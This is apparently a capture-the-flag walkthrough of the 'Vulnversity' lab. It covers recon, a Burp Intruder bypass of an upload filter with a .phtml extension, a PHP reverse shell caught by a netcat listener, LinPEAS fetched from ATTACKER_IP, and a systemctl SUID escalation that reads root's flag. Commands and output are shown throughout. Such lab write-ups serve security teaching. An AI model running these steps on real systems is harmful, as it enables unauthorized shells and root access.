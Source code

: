 # Vulnversity (Upload form and SUID)

## **Reconnaissance** <a href="#jyvafdv667q0" id="jyvafdv667q0"></a>

<table><thead><tr><th width="153">Nmap Flag</th><th>Description</th></tr></thead><tbody><tr><td><code>-sV</code></td><td>Attempt to determine version of running services.</td></tr><tr><td><code>-p &#x3C;x></code> or <code>-p-</code></td><td>Port scan for port or scan all ports.</td></tr><tr><td><code>-Pn</code></td><td>Disable host discovery and scan for open ports.</td></tr><tr><td><code>-A</code></td><td>Enable OS and version detection, executes in-built scripts for further examination.</td></tr><tr><td><code>-sC</code></td><td>Scan with default Nmap scripts.</td></tr><tr><td><code>-v</code></td><td>Verbose mode.</td></tr><tr><td><code>-sU</code></td><td>UDP port scan.</td></tr><tr><td><code>-sS</code></td><td>TCP SYN port scan.</td></tr></tbody></table>

### **Locating Directories Using**[ **Gobuster**](https://github.com/OJ/gobuster) <a href="#slkkkg2mp3hm" id="slkkkg2mp3hm"></a>

Brute forces URIs (directories and files), DNS subdomains, and virtual host names.

Install Gobuster on Kali.

```
sudo apt-get install gobuster
```

Requires wordlist to identify if public directory is available. Kali **/usr/share/wordlists** folder contains many wordlists.

<table><thead><tr><th width="188">Gobuster Flag</th><th>Description</th></tr></thead><tbody><tr><td><code>dir</code></td><td>Use directory/file brute forcing.</td></tr><tr><td><code>-e</code></td><td>Print full URLs to console</td></tr><tr><td><code>-u</code></td><td>Target URL.</td></tr><tr><td><code>-w</code></td><td>Path to wordlist.</td></tr><tr><td><code>-U</code> and <code>-P</code></td><td>Username and password for basic authentication.</td></tr><tr><td><code>-p &#x3C;x></code></td><td>Proxy to use for requests.</td></tr><tr><td><code>-c &#x3C;http cookies></code></td><td>Specify cookie for simulating authentication.</td></tr></tbody></table>

## **Compromise Webserver** <a href="#qgehf8bqr1ee" id="qgehf8bqr1ee"></a>

[Download reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Upload shell to **http://TARGET\_IP:3333/internal/**.

PHP file extensions blocked by upload form. Fuzz upload form using Burp Suite to identify which extensions are not blocked.

Use the Intruder to automate customised attacks.

Make wordlist of extensions.

```
printf "php\nphp3\nphp4\nphp5\nphtml" > phpext.txt
```

Intercept browser traffic with Burp Suite.

Send captured request to Intruder. "Sniper" attack type. "Payload Positions" -> find filename -> prefix and suffix `§` to extension. "Payloads" -> "Payload settings" -> "Load" -> phptext.txt.

.phtml extensions allowed by upload form.

Start the attack.

Edit **php-reverse-shell.php**. Change IP to attacking machine. Rename file to php-reverse-shell.phtml.

Reverse shell is called on target. Forces a connection to listening attacker.

```
mv php-reverse-shell.php php-reverse-shell.phtml
```

Listen to incoming connections using netcat.

```
nc -lvnp 1234
```

Upload shell to webserver.

Execute payload.

Navigate to **http://TARGET\_IP:3333/internal/uploads/php-reverse-shell.phtml**

Connection established on Netcat session.

```
Connection from 10.10.240.196 33302 received!
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
10:00:44 up 1:34, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## **Privilege Escalation** <a href="#f1cdfgno2i9w" id="f1cdfgno2i9w"></a>

Linux SUID (set owner userId upon execution) is special type of file permission. Gives temporary permissions to a user to run binary with permission of file owner. E.g. `/usr/bin/passwd` binary file to change user password has SUID bit set. User needs to be able to write to shadowers file but only root has access by default. User account has root privileges to make the right changes.

```
4 2 1 4 2 1 4 2 1
r w x r w x r w x
SUID V V V
r w s r w x r w x
-------
User
```

Upgrade to TTY shell using Python.

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

Search for all SUID files.

```
find / -user root -perm -4000 -print 2>/dev/null
```

`-user root` is file owner.

`-perm 4000` specifies permissions.

Use[ LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) scripts to identify SUID vulnerabilties.

```
mkdir /home/kali/linpeas
cd /home/kali/linpeas
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

Serve payload through python webserver.

```
python3 -m http.server
```

Download LinPEAS to target. Ensure that target directory has write permissions (`/tmp`).

Write LinPeas output to txt file.

```
wget http://ATTACKER_IP:8000/linpeas.sh
chmod +c ./linpeas.txt
./linpeas.sh -a > linpeas.txt
```

Read SUID part of linpeas.txt file.

```
grep -A 50 "SUID - Check easy privesc, exploits and write perms" ./linpeas.txt
```

`-A 50` means list 50 lines after the search term "SUID - Check easy privesc, exploits and write perms".

LinPEAS shows `/bin/systemctl` highlighted in red/yellow signifying a 95% privilege escalation vector.

Browse to[ GTFOBins](https://gtfobins.github.io/). Select SUID'. CTRL+F and search for systemctl.

> If binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

`cd /tmp` as this directory is writable.

Create local SUID copy of bash binary and run it to maintain elevated (root) privileges.

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.PzHSya3VD0.service to /tmp/tmp.PzHSya3VD0.service.
/bin/systemctl enable --now $TF

Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.X6k1yvp1ii.service to /tmp/tmp.X6k1yvp1ii.service.
```

`cat /tmp/output` to read file that contains contents of restricted `/root/root.txt` file.
